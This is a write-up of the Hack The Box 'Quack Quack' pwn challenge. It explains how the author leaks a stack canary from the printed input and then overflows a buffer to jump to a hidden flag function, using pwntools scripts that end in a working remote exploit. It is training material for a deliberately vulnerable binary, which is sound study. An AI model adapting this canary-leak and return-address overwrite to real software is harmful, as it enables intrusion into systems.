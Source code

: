 # Quack Quack — Writeup

**Platform:** *Hack The Box*

**Category:** *pwn*

**Difficulty:** *very easy*

**Link:** https://app.hackthebox.com/challenges/Quack%2520Quack


## Solution

I started by checking some basic information about the binary:

<p align="center">
<img src="../../resources/HackTheBox/Quack1_0.png" alt="Output of file command"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack1_1.png" alt="Output of checksec command"/>
</p>

Next, I executed the binary to understand its execution flow:

<p align="center">
<img src="../../resources/HackTheBox/Quack2.png" alt="First input"/>
</p>
I needed to find a way to progress further in the program. So, I disassembled the binary and found the following code:

<p align="center">
<img src="../../resources/HackTheBox/Quack3_0.png" alt="First input assembly"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack3_1.png" alt="First input pseudo-C"/>
</p>
From this, I noticed that the input had to be "Quack Quack "**:

<p align="center">
<img src="../../resources/HackTheBox/Quack4.png" alt="Second input"/>
</p>

After that input, the binary produced more output. I then analyzed the next input processing code:

<p align="center">
<img src="../../resources/HackTheBox/Quack5_0.png" alt="Second input assembly"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack5_1.png" alt="Second input pseudo-C"/>
</p>

I also found a hidden function called `duck_attack`, which wasn’t reachable through the normal control flow and returned the flag:

<p align="center">
<img src="../../resources/HackTheBox/Quack6_0.png" alt="The hidden function in functions table"/>
</p>
<p align="center">
<img src="../../resources/HackTheBox/Quack6_1.png" alt="hidden function content"/>
</p>

To reach it, I needed to overwrite the return address, but the binary had a **stack canary**, which complicated things.

In the code handling the first input, I noticed a call to `strstr` which searches for a pattern in the string and returns everything from the matched part onward. The `printf` output added a 0x20 (32-byte) padding, so only the bytes after that were displayed:

<p align="center">
<img src="../../resources/HackTheBox/Quack7.png" alt="Bytes display demonstration"/>
</p>

To leak the **stack canary**, I used a **format string vulnerability** in the `printf` function. There were 120 bytes (`0x88 - 0x10`) between the first input buffer and the canary:

<p align="center">
<img src="../../resources/HackTheBox/Quack8.png" alt="Locations of variables on the stack"/>
</p>

In addition, there was a 32-byte padding, so I needed 88 bytes of padding, the string `"Quack Quack "`, and one more byte to prevent a null terminator from stopping `printf`. I wrote the following script to leak the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

p.interactive()
```

<p align="center">
<img src="../../resources/HackTheBox/Quack9.png" alt="Canary leak"/>
</p>

Then I modified the script to extract just the canary:

```python
from pwn import *

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]
print(data)

p.interactive()
```
<p align="center">
<img src="../../resources/HackTheBox/Quack10.png" alt="Canary leak"/>
</p>

After leaking the canary, I proceeded to overflow the second buffer. It required 88 bytes of padding (`0x68 - 0x10`), the canary, a saved `rbp`, and the address of `duck_attack`. I wrote this script:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = process('./quack_quack')

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```
<p align="center">
<img src="../../resources/HackTheBox/Quack11.png" alt="Fake flag"/>
</p>

That gave me a fake flag locally. To get the real flag, I modified the script to connect via `netcat`:

```python
from pwn import *

elf = context.binary = ELF('./quack_quack')
duck_attack = elf.symbols['duck_attack']

context.log_level = 'debug'

p = remote('94.237.53.189', 41528)

p.sendafter('> ', flat([b'A' * 89, b'Quack Quack ']))

data = p.recvline_startswith(b'Quack Quack').split(b',')[0].strip(b'Quack Quack')[:7]

canary = u64(b'\0' + data)

p.sendafter('> ', flat([b'A' * 88, canary, b'A' * 8, duck_attack]))

p.interactive()
```

And I got a flag:

<p align="center">
<img src="../../resources/HackTheBox/Quack12.png" alt="Flag"/>
</p>
